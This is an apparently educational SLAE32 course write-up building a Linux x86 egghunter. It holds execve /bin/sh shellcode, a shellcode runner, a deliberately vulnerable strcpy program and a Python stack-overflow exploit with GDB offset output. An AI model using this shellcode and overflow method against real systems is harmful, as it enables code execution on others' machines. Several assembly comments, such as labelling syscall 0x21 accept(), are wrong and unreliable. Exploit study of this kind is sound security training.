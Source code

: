 ```yaml
---
title: SLAE32 Assignment 3 -- Egghunter Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)

```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com 
;
;
; Purpose: 

global _start			

section .text
_start:

	xor eax, eax
	push eax
	push 0x68732f2f 	; PUSH //bin/sh (8 bytes) 
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```
This is the assembly code of the egghunter I created. It is heavily influenced by Skapes egghunter.  

``nasm
global _start
_start:
        mov ebx, 0x50905090             ; EGG - 0x90 is NOP, 0x50 is push eax. Executable, no consequence instructions
        xor ecx, ecx                    ; Clears the ECX Register.
        mul ecx                                 ; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX registers
nextPage:                                       ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
        or dx, 0xfff                    ; 0xfff = 4096. This is the size of Linux Memory pages.
nextAddress:                            ; Increments the memory address stored in EDX by 4 Bytes (a memory address in IA-32 bit)
        inc edx                                 ; in combo with the or dx above, this moves the memory scanner EDX by a page
                                                        ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the next memory address
                                                        ; 4095*2=8190+1=8191.
        ;                                                    (inc edx) 4095+1    (inc edx) 8191+1
        ; or dx when edx is: \x00000000                 \x00001000 = 4096       \x00002000 = 8192
        ;                                        \x00000FFF                     \x00000FFF = 4095        \x00000FFF = 4095
        ;                                        \x00000FFF = 4095  \x00001FFF = 8191   \x00002FFF = 12287
        pusha                                   ; Pushes all 16-bit registers onto the stack
        lea ebx, [edx+0x4]              ; Increments the Memory Address of EDX by 4 Bytes.
                                                        ;  Stores the value stored at EDX+4 into the EBX register
        mov al, 0x21                    ; System Call for accept()
        int 0x80                                ; Executes accept()
        cmp al, 0xf2                    ; The return value of accept() is stored in EAX. Checks if access is denied
        popa                                    ; Pops all 16-bit registers from the stack
        jz nextPage                             ; If page access is denied, check the next memory page
        cmp [edx], ebx                  ;
        jnz nextAddress
        cmp [edx+0x4], ebx
        jnz nextAddress
        jmp edx
```

I then comipled both the egghunter and the execve assembly code.  

```console
nasm -f elf32 eggHunter.nasm -o eggHunter.o
ld eggHunter.o -o eggHunter
nasm -f elf32 execve.nasm -o execve.o
ld execve.o -o execve
```
Once both the programs were compiled I used my object dump bash script to extract the shellcode in hex.

```bash
#!/bin/bash
# Filename: objdump2hex.sh

OBJFILE=$1

objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

```console
root# ./objdump2hex.sh 
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

root# ./objdump2hex.sh execve
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
```

To combine the egghunter with the shellcode, and to define an egg to hunt for, I created a simple C program.  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// egg=0x50905090
#define EGG "\x90\x50\x90\x50"

unsigned char egg[] = EGG;
unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main(){
        printf("Egghunter Length: %d\n", sizeof(egghunter)-1);
        char stack[200];
        printf("Memory location of shellcode: %p\n", stack);
        strcpy(stack, egg);
        strcpy(stack-4, egg);
        strcpy(stack-8, shellcode);

        int (*ret)() = (int(*)())egghunter;
        ret();
}
```


This was the code I used to create a vulnerable C program to use the egghunter exploit on.  

```c
// https://pinkysplanet.net/simple-linux-x86-buffer-overflow/
// Disable ASLR  "echo 0 | sudo tee /proc/sys/kernel/randomize_va_space"
// Compiled with gcc: gcc -fno-stack-protector -z execstack -no-pie ezbof.c -o ezbof
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void pb(char *buf);

int main(int argc, char **argv)
{
	if (argc < 2)
	{
		printf("%s <string>\n",argv[0]);
		exit(0);
	}
	pb(argv[1]);
	return 0;
}

void pb(char *buf)
{
	char buffer[32];
	strcpy(buffer,buf);
	printf("[+] Buffer: %s\n", buffer);
}
```

After compiling the program I needed to find the offset for the stack buffer overflow.  
I used GDB with the peda plugin to generate a unique sting to overflow the buffer.  

```console
gdb ./ezbof
gdb-peda$ pattern_create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  # At time of Crash | EIP: 0x41414641 ('AFAA')
gdb-peda$ pattern_offset 0x41414641
  1094796865 found at offset: 44
gdb-peda$ r `python xploit-ezbof.py`
  # At time of Crash | EIP: 0x37333331 ('1337')
gdb-peda$ info functions
  0x0804848c  pb
gdb-peda$ disassemble pb
  0x080484b9 <+45>:    ret
```

```python 
#!/usr/bin/python
junk = '\x90' * 44
# mov ecx, 0x88888888
# B988888888
#MOV_ECX = '\xb9\x88\x88\x88\x88'
# at time of crash:	ECX: 0x88888888 
#	ESP: 0xbffff4c0 --> 0x888888b9 
#	EIP: 0xbffff4f3 --> 0xfff51c00
#	0000| 0xbffff4c0 --> 0x888888b9 
#	0004| 0xbffff4c4 --> 0x90909088 
#	0008| 0xbffff4c8 --> 0x90909090 

#payload = '\x90' * 46
#EIP = '\x31\x33\x33\x37'
#print junk + EIP + egg
# At time of crash:	ESP: 0xbffff4c0 --> 0x90909090 
#RET = '\xBF\xFF\xF4\xC0'
EIP = '\xc0\xf4\xff\xbf'
#EIP = 0xbffff4c0
# root# ./objdump2hex.sh execve-stack
payload = "\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";


print junk + EIP + payload
```
